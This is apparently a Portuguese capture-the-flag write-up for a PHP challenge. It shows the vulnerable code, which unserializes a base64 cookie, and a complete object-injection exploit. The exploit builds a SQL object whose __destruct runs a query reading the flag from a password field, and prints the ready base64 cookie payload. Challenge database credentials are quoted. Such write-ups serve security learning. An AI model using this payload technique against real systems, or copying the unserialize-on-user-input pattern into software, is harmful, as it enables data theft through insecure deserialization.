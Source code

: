 # Objetos mágicos

## Alex:

**Flag:** `Ganesh{pHp_!s_Fkn_bR@k3n}`

Ao enviar ids para o site e realizar a busca percebi que o id _2_ possuía o username de _flag_, o que chamou a atenção.

Então fui olhar os source codes do site, fornecidos.

Inicialmente olhei na seguinte parte do código \(`source1.txt`\), pensando que poderia quebrar alguma coisa:

```php
if (isset($_REQUEST['id']) && is_numeric($_REQUEST['id'])) {
    try {
        $sql->query .= $_REQUEST['id'];
    } 
    catch (Exception $e) {
        echo 'Invalid query';
    }
}
```

Mas após muitas tentativas \(inclusive de tentar converter uma string para URL encode, tentando burlar a função `ìs_numeric`\), percebi que provavelmente esse não fosse o caminho.

Então passei a olhar para a outra parte do mesmo código \(`source1.txt`\):

```php
if (isset ($_COOKIE['h4ck_m3'])) {
    $sess_data = unserialize(base64_decode($_COOKIE['h4ck_m3']));
    try {
        if (is_array($sess_data) && $sess_data['ip'] != $_SERVER['REMOTE_ADDR']) {
            die("We are secure, you can't hack us!!");
        }
    } 
    catch (Exception $e) {
        echo $e;
    }
} 
else {
    $cookie = base64_encode(serialize(array( 'ip' => $_SERVER['REMOTE_ADDR']))) ;
    setcookie ('h4ck_m3', $cookie, time () + (86400 * 30));
}
```

Entendi que isso era uma verificação por meio de cookies para evitar \(ou tentar\) que fosse possível uma SQLInj.  
Então, comecei a olhar para as funções utilizadas nessa verificação e percebi que ela era feita por meio da serialização de um objeto \(array\) que possuia o ip do servidor.  
Me lembrando do top 10 da OWASP, em especial o oitavo item \(Insecure Deserialization\), pensei poder ser esse o caminho para quebrar o código.

Então fiz algumas pesquisas sobre como funciona a serialização/desserialização de objetos no PHP além de falhas relacionadas a isso. Foi quando vi que em um objeto que possui os "_magic methods_" no php \(**wakeup,** destruct, etc\), esses metodos são executados normalmente após o objeto ser desserializado. [\[Link de Base\]](https://owasp.org/www-community/vulnerabilities/PHP_Object_Injection)

E pra minha sorte \(ou não\) a classe SQL executava o código da busca no método `__destruct`. Então bastava achar uma forma de colocar um objeto do tipo SQL\(\) no cookie de verificação, com a query que eu quiser, para fazer a busca pela flag.

Para isso abri um terminal do php \(`$> php - a`\) e comecei por recriar a classe para conseguir serializá-la.

```php
class SQL {
    public $query = '';
    public $conn;

    public function __construct() {}

    public function connect() {
        $servername = "localhost";
        $username = "db_user";
        $password = "w3b_4_Th3_W!n";
        $database = "cereal";

        $this->conn = new mysqli($servername, $username, $password, $database);

        if (!$this->conn)
            die("Debugging error[" . mysqli_connect_errno() . "]: " . mysqli_connect_error() . PHP_EOL);
    }

    public function SQL_query($query) {
        $this->query = $query;
        echo "QUERY:" . $this->query;
    }

    public function execute() {
        return $this->conn->query($this->query);
    }

    public function __destruct() {
        if (!isset ($this->conn))
            $this->connect();

        $ret = $this->execute();

        if ($ret !== false) {   
            echo "<h2> Resposta: </h2>";
            while ($row = $ret->fetch_assoc()) {
                echo '<p class="user"><strong>Username:<strong> ' . $row['username'] . '</p>';
            }
        }
    }
}
```

Então criei uma instancia dessa classe e coloquei nela a query que buscava a flag \(note que a flag provavelmente estava no campo password, o que me fez usar o alias do SQL\).

```php
$sql = new SQL();
$sql->query = "SELECT password as username FROM users WHERE id=2";
```

Então fui olhar nos cookies do navegador, para obter o objeto guardado no cookie "h4ck\_m3". Vendo que estava em _base64_, converti para string e depois para objeto:

```php
$data = unserialize(base64_decode("YToxOntzOjI6ImlwIjtzOjk6IjEyNy4wLjAuMSI7fQ=="));
```

Então eu obtive o objeto que é utilizado para a verificação. Bastava agora inserir o objeto SQL\(\) criado e serializar o array novamente.

```php
$data[0] = $sql;
$str = base64_encode(serialize($data));

echo $str;
```

E isso me imprimiu o resultado: `YToyOntzOjI6ImlwIjtzOjk6IjEyNy4wLjAuMSI7aTowO086MzoiU1FMIjoyOntzOjU6InF1ZXJ5IjtzOjQ5OiJTRUxFQ1QgcGFzc3dvcmQgYXMgdXNlcm5hbWUgRlJPTSB1c2VycyBXSEVSRSBpZD0yIjtzOjQ6ImNvbm4iO047fX0=`.

Agora basta editar o cookie e reenviar a request para o servidor. Ao fazer isso \(pelo próprio dev-tools do firefox\), a página retornada é a seguinte: 

![](https://i.imgur.com/1g7PyYj.png)

